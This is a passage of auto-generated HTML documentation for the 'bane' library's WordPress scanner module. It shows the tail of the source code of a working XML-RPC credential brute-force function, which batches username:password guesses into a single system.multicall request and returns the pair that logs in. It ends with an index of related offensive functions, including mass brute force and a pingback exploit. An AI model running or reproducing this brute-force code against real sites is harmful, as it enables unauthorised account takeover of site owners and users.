&lt;methodCall&gt;&lt;methodName&gt;system.multicall&lt;/methodName&gt;&lt;params&gt;&lt;param&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;
 &#34;&#34;&#34;
    for x in word_list:
        post += &#34;&#34;&#34;&lt;value&gt;&lt;struct&gt;&lt;member&gt;&lt;name&gt;methodName&lt;/name&gt;&lt;value&gt;&lt;string&gt;wp.getUsersBlogs&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;&lt;member&gt;&lt;name&gt;params&lt;/name&gt;&lt;value&gt;&lt;array&gt;
  &lt;data&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;&lt;value&gt;&lt;string&gt;{}&lt;/string&gt;&lt;/value&gt;&lt;value&gt;&lt;string&gt;{}&lt;/string&gt;&lt;/value&gt;
  &lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/member&gt;&lt;/struct&gt;&lt;/value&gt;
&#34;&#34;&#34;.format(
            x.split(&#34;:&#34;)[0], x.split(&#34;:&#34;)[1]
        )
    post += &#34;&#34;&#34;
&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/param&gt;&lt;/params&gt;&lt;/methodCall&gt;
 &#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = (
            r.text.split(&#34;&lt;array&gt;&lt;data&gt;&#34;)[1]
            .split(&#34;&lt;/array&gt;&lt;/data&gt;&#34;)[0]
            .strip()
            .split(&#34;&lt;/struct&gt;&lt;/value&gt;&#34;)
        )
        for x in l:
            if &#34;Incorrect username or password&#34; not in x:
                return word_list[l.index(x)]
    except:
        pass
    return &#34;&#34;</code></pre>
</details>
</dd>
</dl>
</section>
<section>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.scanners.cms" href="index.md">bane.scanners.cms</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="">
<li><code><a title="bane.scanners.cms.wp.extract_with_versions" href="#bane.scanners.cms.wp.extract_with_versions">extract_with_versions</a></code></li>
<li><code><a title="bane.scanners.cms.wp.fetch_wp_exploits" href="#bane.scanners.cms.wp.fetch_wp_exploits">fetch_wp_exploits</a></code></li>
<li><code><a title="bane.scanners.cms.wp.get_wp_infos" href="#bane.scanners.cms.wp.get_wp_infos">get_wp_infos</a></code></li>
<li><code><a title="bane.scanners.cms.wp.version_string_to_list" href="#bane.scanners.cms.wp.version_string_to_list">version_string_to_list</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_user" href="#bane.scanners.cms.wp.wp_user">wp_user</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_users" href="#bane.scanners.cms.wp.wp_users">wp_users</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_users_enumeration" href="#bane.scanners.cms.wp.wp_users_enumeration">wp_users_enumeration</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_version" href="#bane.scanners.cms.wp.wp_version">wp_version</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_xmlrpc_bruteforce" href="#bane.scanners.cms.wp.wp_xmlrpc_bruteforce">wp_xmlrpc_bruteforce</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_xmlrpc_mass_bruteforce" href="#bane.scanners.cms.wp.wp_xmlrpc_mass_bruteforce">wp_xmlrpc_mass_bruteforce</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_xmlrpc_methods" href="#bane.scanners.cms.wp.wp_xmlrpc_methods">wp_xmlrpc_methods</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_xmlrpc_pingback" href="#bane.scanners.cms.wp.wp_xmlrpc_pingback">wp_xmlrpc_pingback</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wp_xmlrpc_pingback_exploit" href="#bane.scanners.cms.wp.wp_xmlrpc_pingback_exploit">wp_xmlrpc_pingback_exploit</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wpadmin" href="#bane.scanners.cms.wp.wpadmin">wpadmin</a></code></li>
<li><code><a title="bane.scanners.cms.wp.wpadmin_mass" href="#bane.scanners.cms.wp.wpadmin_mass">wpadmin_mass</a></code></li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>